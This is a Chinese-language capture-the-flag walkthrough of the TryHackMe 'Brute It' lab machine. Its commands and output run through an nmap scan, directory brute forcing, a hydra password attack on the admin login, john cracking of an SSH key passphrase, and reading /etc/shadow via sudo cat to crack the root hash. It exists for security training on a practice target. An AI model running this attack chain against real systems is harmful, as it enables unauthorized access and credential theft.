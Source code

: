 #服务探测
```
┌──(root💀kali)-[~/tryhackme]
└─# nmap -sV -Pn 10.10.218.99     
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-08 03:18 EDT
Nmap scan report for 10.10.218.99
Host is up (0.34s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.58 seconds
```



#目录爆破
```
┌──(root💀kali)-[~/dirsearch]
└─# python3 dirsearch.py -e* -t 100 -w /usr/share/wordlists/Web-Content/directory-list-2.3-medium.txt -u http://10.10.218.99

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: * | HTTP method: get | Threads: 100 | Wordlist size: 220521

Error Log: /root/dirsearch/logs/errors-21-10-08_03-18-54.log

Target: http://10.10.218.99

[03:18:55] Starting: 
[03:18:57] 200 -   11KB - /
[03:19:03] 301 -  312B  - /admin  ->  http://10.10.218.99/admin/
[03:25:33] 403 -  277B  - /server-status   
```

/admin源代码有一行注释
>Hey john, if you do not remember, the username is admin

所以我们现在知道登录的账号名是:```admin```，ssh的用户名是：```john```

#用hydra爆破登录密码

```
┌──(root💀kali)-[~/tryhackme/bruteit]
└─# hydra -f -l admin -P /usr/share/wordlists/rockyou.txt 10.10.218.99 http-post-form "/admin/:user=admin&pass=^PASS^&submit=LOGIN:Username or password invalid" -I -v
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-08 03:36:32
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.218.99:80/admin/:user=admin&pass=^PASS^&submit=LOGIN:Username or password invalid
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] Page redirected to http://10.10.218.99/admin/panel
[VERBOSE] Page redirected to http://10.10.218.99/admin/panel/
[80][http-post-form] host: 10.10.218.99   login: admin   password: xavier
[STATUS] attack finished for 10.10.218.99 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-10-08 03:37:31
```

现在我们得到了登录凭证```admin:xavier```

登录后拿到webflag
```THM{brut3_f0rce_is_e4sy}```


把登录页面的rsa复制下来，在本地保存成文件id_rsa

#用ssh2john把rsa改成john能识别的哈希
```
┌──(root💀kali)-[~/tryhackme/bruteit]
└─# locate ssh2john.py                
/usr/share/john/ssh2john.py
                                                                                                                                                                                                                                            
┌──(root💀kali)-[~/tryhackme/bruteit]
└─# /usr/share/john/ssh2john.py id_rsa >rsacrack
```

#john开始破解
```
┌──(root💀kali)-[~/tryhackme/bruteit]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt rsacrack
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
rockinroll       (id_rsa)
1g 0:00:00:04 61.87% (ETA: 03:49:13) 0.2493g/s 2222Kp/s 2222Kc/s 2222KC/s crj316..crizzy19
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:07 DONE (2021-10-08 03:49) 0.1336g/s 1917Kp/s 1917Kc/s 1917KC/sa6_123..*7¡Vamos!
Session completed
```

得到rsa密码：```rockinroll```


#登录ssh拿到user.txt
```
┌──(root💀kali)-[~/tryhackme/bruteit]
└─# chmod 600 id_rsa                                                                                                                                                                                                                  130 ⨯
                                                                                                                                                                                                                                            
┌──(root💀kali)-[~/tryhackme/bruteit]
└─# ssh -i id_rsa john@10.10.218.99
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Oct  8 07:51:11 UTC 2021

  System load:  0.0                Processes:           104
  Usage of /:   25.8% of 19.56GB   Users logged in:     0
  Memory usage: 24%                IP address for eth0: 10.10.218.99
  Swap usage:   0%


63 packages can be updated.
0 updates are security updates.


Last login: Wed Sep 30 14:06:18 2020 from 192.168.1.106
john@bruteit:~$ ls
user.txt
john@bruteit:~$ cat user.txt
THM{a_password_is_not_a_barrier}

```

sudo -l查看本账号root权限
```
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```

直接查看shadow文件
```
john@bruteit:~$ sudo cat /etc/shadow
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
thm:$6$hAlc6HXuBJHNjKzc$NPo/0/iuwh3.86PgaO97jTJJ/hmb0nPj8S/V6lZDsjUeszxFVZvuHsfcirm4zZ11IUqcoB9IEWYiCV.wcuzIZ.:18489:0:99999:7:::
sshd:*:18489:0:99999:7:::
john:$6$iODd0YaH$BA2G28eil/ZUZAV5uNaiNPE0Pa6XHWUFp7uNTp2mooxwa4UzhfC0kjpzPimy1slPNm9r/9soRw8KqrSgfDPfI0:18490:0:99999:7:::
```

把```root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.```复制到本地，保存成一个hash.txt文件

再次用john破解
```
┌──(root💀kali)-[~/tryhackme/bruteit]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
football         (root)
1g 0:00:00:00 DONE (2021-10-08 03:58) 5.555g/s 1422p/s 1422c/s 1422C/s 123456..freedom
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

拿到root凭证：```root:football```

#登录root账户，拿到root flag
```
john@bruteit:~$ su root
Password: 
root@bruteit:/home/john# cat /root/root.txt 
THM{pr1v1l3g3_3sc4l4t10n}
root@bruteit:/home/john# 
```

#总结
很简单的机器，主要考察各种暴力破解工具的使用。